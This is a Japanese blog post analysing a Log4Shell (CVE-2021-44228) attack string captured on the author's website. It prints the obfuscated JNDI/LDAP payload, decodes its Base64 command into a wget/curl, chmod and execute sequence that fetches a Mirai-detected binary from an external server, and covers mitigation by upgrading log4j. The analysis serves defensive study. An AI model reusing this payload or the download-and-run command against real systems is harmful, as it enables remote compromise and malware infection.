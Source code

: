 # log4shellの攻撃コードを見てみる  

私のブログサイトにlog4shellの攻撃コードが送られてきた。こんなできたばかりの貧相なサイトにも送ってくれる網羅性には感心する。  
なので、ここではその攻撃コードをみんなで見て勉強していきたいと思う。  

## 早速見てみる

まぁ、いきなり見てしまうのが一番なので以下に見てみる。  
```
"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//150[.]136[.]111[.]68[:]1389/TomcatBypass/Command/Base64/d2dldCBodHRwOi8xNTguMTAxLjExOC4yMzYvc3NoZF9wdHk7IGN1cmwgLU8gaHR0cDovMTU4LjEwMS4xMTguMjM2L3NzaGRfcHR5OyBjaG1vZCA3Nzcgc3NoZF9wdHk7IC4vc3NoZF9wdHkgZXhwbG9pdA==}')" "t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//150[.]136[.]111[.]68[:]1389/TomcatBypass/Command/Base64/d2dldCBodHRwOi8xNTguMTAxLjExOC4yMzYvc3NoZF9wdHk7IGN1cmwgLU8gaHR0cDovMTU4LjEwMS4xMTguMjM2L3NzaGRfcHR5OyBjaG1vZCA3Nzcgc3NoZF9wdHk7IC4vc3NoZF9wdHkgZXhwbG9pdA==}')"
```
Note: IPとポートの箇所はマスクした。  
で、攻撃コードにはコマンドがbase64で記載されているため、これをデコードしてみよう。  
```
wget hxxp:/158[.]101[.]118[.]236/sshd_pty;
curl -O hxxp:/158[.]101[.]118[.]236/sshd_pty;
chmod 777 sshd_pty;
[.]/sshd_pty
```
Note: URLはマスクを実施。本来はワンライナーになっていたが、見やすいように改行した。  

まぁ、わかりやすい。sshd_ptyというファイルをダウンロードして実行。  
ちなみにこのsshd_ptyはバイナリ形式であり、fileコマンドで見ると以下のようになっていた。  
```
# file sshd_pty
sshd_pty: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, stripped
```
sha256: 3e30a65e6504969c05b1bed32db2a2a592da110a7d2dbda9f064f13be5390d6c

VirusTotalに上げて見ると、32/59の検知。大半はMiraiで検知していた。  
[VirusTotalの結果](https://www.virustotal.com/gui/file/3e30a65e6504969c05b1bed32db2a2a592da110a7d2dbda9f064f13be5390d6c)

この攻撃コードを送ってくれたのと、コード内にある通信先は以下となる。  
* 送信元: 198[.]98[.]61[.]124
* 送信先: 150[.]136[.]111[.]68

最後に攻撃コードの内容がいくつか難読化（というか検知回避レベル）のトリックがなされているため、若干見やすくしたのが以下となる。  
```
"t('${jndi:ldap://150[.]136[.]111[.]68[:]1389/TomcatBypass/Command/Base64/d2dldCBodHRwOi8xNTguMTAxLjExOC4yMzYvc3NoZF9wdHk7IGN1cmwgLU8gaHR0cDovMTU4LjEwMS4xMTguMjM2L3NzaGRfcHR5OyBjaG1vZCA3Nzcgc3NoZF9wdHk7IC4vc3NoZF9wdHkgZXhwbG9pdA==}')" "t('${jndi:ldap://150[.]136[.]111[.]68[:]1389/TomcatBypass/Command/Base64/d2dldCBodHRwOi8xNTguMTAxLjExOC4yMzYvc3NoZF9wdHk7IGN1cmwgLU8gaHR0cDovMTU4LjEwMS4xMTguMjM2L3NzaGRfcHR5OyBjaG1vZCA3Nzcgc3NoZF9wdHk7IC4vc3NoZF9wdHkgZXhwbG9pdA==}')"
```

こうやって見ると、jndi:ldap://〜URL〜であり、明らかにlog4shellを狙っている。  

さて、いきなり攻撃コードを出したが、ここからはlog4shellがなんなのかを説明していく。  

## log4jの脆弱性(通称：log4shell)  

log4shellは、javaで一般的に利用されるlogging用のフレームワークであるlog4jで検出された脆弱性である。  
**CVE番号: CVE-2021-44228**  

脆弱性はRCEにあたり、任意コード実行が可能となる。脆弱性が悪用しているものは、log4jがLDAPとJNDIのリクエストの内容に関して検証が行えてないことを悪用している。  
以下にあるようにWikipediaにも専用のページが作成されている。  
[log4shellに関する記述](https://ja.wikipedia.org/wiki/Log4Shell)

この脆弱性を利用した場合、jndi:ldap://の後ろにつけられたURLからコードを取得して実行することができる。  

## 対策   

この脆弱性は最新版では修正されているため、アップグレードすることを推奨する。  
この脆弱性自体は、2.15で修正されたが、その他の脆弱性も見つかっているため、2.17にアップグレードすることが推奨される。  

## 所感  

正直、驚きのレベルの脆弱性である。このレベルの脆弱性はshellshock以来のように思う。  
（HeartBleedもあったが、これはRCEではないので、同じ系統で考えると、shellshockが思い浮かぶ）  
まして、log4jはjavaで開発をすると、とりあえずこれにしとけ、てレベルのライブラリであり、これでこんな深刻な脆弱性があるとは想像もしてなかった。  
放置しているサーバもあるだろうし、今後もこの脆弱性は利用されていくだろう。  
参考: [ShellShock](https://ja.wikipedia.org/wiki/2014%E5%B9%B4%E3%82%B7%E3%82%A7%E3%83%AB%E3%82%B7%E3%83%A7%E3%83%83%E3%82%AF%E8%84%86%E5%BC%B1%E6%80%A7)

さて、これでこの記事は一旦終了である。  
この後、この攻撃サーバへの通信を停止することを行う。それについては、Azureの環境のため、Azureセキュリティグループで防止する方法を見ていこう。  
また、その後は今回検出されたマルウェアであるsshd_ptyをマルウェア解析してみよう。  

## 終わりに  

では、終了となります。ありがとうございました。  
